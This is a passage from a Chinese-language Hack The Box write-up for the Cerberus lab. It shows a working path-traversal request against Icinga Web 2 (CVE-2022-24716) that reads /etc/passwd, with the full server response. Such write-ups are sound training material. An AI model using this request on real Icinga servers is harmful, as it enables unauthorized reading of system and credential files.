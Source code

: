那就直接访问 8080 端口，看到跳转到域名 icinga.cerberus.local，那么在 hosts 文件里加上

加上之后，再进行访问，可以看到 8080 端口的 web 界面

# Web 渗透

![](https://i.328888.xyz/2023/04/09/icHGEb.png)

能看到开源框架是 **Icinga Web 2**，上网查一查漏洞，发现在 2022 年爆出了一个**任意文件读取漏洞 CVE-2022-24716 和 RCE 漏洞 CVE-2022-24715**

[https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

curl 一下看看

```shell
~/Hackthebox-writeups/Hackthebox-Cerberus --------------------------------------- 13:42:52
> sudo curl -v 'http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd'
*   Trying 10.10.11.205:8080...
* Connected to icinga.cerberus.local (10.10.11.205) port 8080 (#0)
> GET /icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd HTTP/1.1
> Host: icinga.cerberus.local:8080
> User-Agent: curl/7.88.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Sun, 09 Apr 2023 05:43:00 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Cache-Control: public, max-age=1814400, stale-while-revalidate=604800
< Etag: 4019d-6b5-5f361871179c0
< Last-Modified: Sun, 29 Jan 2023 06:51:27 GMT
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain;charset=UTF-8
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
```